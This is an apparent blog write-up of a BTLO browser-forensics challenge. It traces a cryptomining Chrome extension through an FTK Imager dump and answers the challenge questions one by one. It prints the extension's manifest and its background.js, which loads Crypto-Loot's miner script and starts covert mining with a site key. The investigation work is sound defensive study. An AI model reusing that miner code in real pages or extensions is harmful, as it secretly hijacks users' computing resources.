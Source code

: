 ```yaml
---
layout: article
title: Browser Forensics - Cryptominer
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://cdn.pixabay.com/photo/2020/10/22/01/46/cryptocurrency-5674685_1280.png
permalink: /writeups/browser-crypto-miner
tags:
- BTLO
- Challenges
author: z3f1r0
---
```

## Scenario
Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.

## Introduction
First of all, I downloaded "Browser Dump" file and copied it to a Windows VM where it was installed FTK Imager. 

- Here you can download FTK --> [FTK Imager download](https://www.exterro.com/ftk-imager)

Inside "Browser Dump" there are two files:
- **browserdata.ad1**
- **browserdata.ad1.txt**

You have to load **browserdata.ad1** on FTK Imager. I suggest to learn how to FTK Imager works before make the challenge.

When we talk about browser artifacts we talk about, navigation history, bookmarks, list of downloaded files, cache data…etc.
These artifacts are files stored inside of specific folders in the operating system. Each browser stores its files in a different place than other browsers and they all have different names.

## Challenge Submission

### How many browser-profiles are present in Google Chrome?

Profile Path usually is inside **C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default** and there is another folder with the same structure: **Profile 1**

>2 

### What is the name of the browser theme installed on Google Chrome?

Path where Chrome Extensions are installed:
```text
C:\Documents and Settings\”USER NAME”\Local Settings\Application Data\Google\Chrome\User Data\Default\Extensions
```

In the following path I discovered Theme's name: *C:\\Documents and Settings\\”USER NAME”\\Local Settings\\Application Data\\Google\\Chrome\\User Data\\Default\\Extensions\\iiihlpikmpijdopbaegjibndhpgjmjfe\\1.6_0*

```JSON
{
   "app": {
      "launch": {
         "web_url": "http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space"
      },
      "urls": [ "http://atavi.com/browser-themes/" ]
   },
```

>Earth in Space

### Identify the Extension ID and Extension Name of the cryptominer

Continuing to look inside "Extensions", I discovered the following content inside a *manifest.json* file:

```json
{
   "background": {
      "scripts": [ "background.js" ]
   },
   "description": "Allows staff members to mine cryptocurrency in the background of their web browser",
   "icons": {
      "16": "16.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAp1BrfOdr9hldFysTWVfr6nkuAD8IShanyW+d1kG1J6RKUWOCMQTjNUv2R+K+wz5pvgnrHZfc5jx+rGN1VPgs3VQnYCcFjbe2NXLbLLKkXPATIOLrmMjq7pQAEXu5xuqnRU4AkHumpEX81UD0Vv1TgAi5k1mZLrg5F2B02yXz1tfmMIiqCc/mG7K0/ECNUHXjzi/0B5Ubx3DCZvVSN32H+QvF7lxBnOpgjK9syeHPj4iXiyV9lgiCQjMGe4lKsVJfFT5nAf8tY2BBmna1MtY4LLwV1dIvJ922oFGEs0ty6391RwmC6S0j0oIOdGgQjylZKDREzVw959g/3PGp0lj9BQIDAQAB",
   "manifest_version": 2,
   "minimum_chrome_version": "9",
   "name": "DFP Cryptocurrency Miner",
   "omnibox": {
      "keyword": "DFP Miner"
   },
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "3"
}

```

Referring to *description* and *name* we can understand that this is the cryptominer.

> egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner

### What is the description text of this extension?

> Allows staff members to mine cryptocurrency in the background of their web browser

### What is the name of the specific javascript web miner used in the browser extension?

Opening **background.js** I find the answer.

```js
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```

> crypto loot

### How many hashes is the crypto miner calculating per second?

```js
// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
```

>20

### What is the public key associated with this mining activity?

```js
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0')
```

### What is the URL of the official Twitter page of the javascript web miner?

Just a Google search.

>twitter.com/CryptoLootMiner


*References*:
- [https://nasbench.medium.com/web-browsers-forensics-7e99940c579a](https://nasbench.medium.com/web-browsers-forensics-7e99940c579a)
- [https://focusinfotech.com/blog/browser-forensics](https://focusinfotech.com/blog/browser-forensics)
- [https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433](https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433)
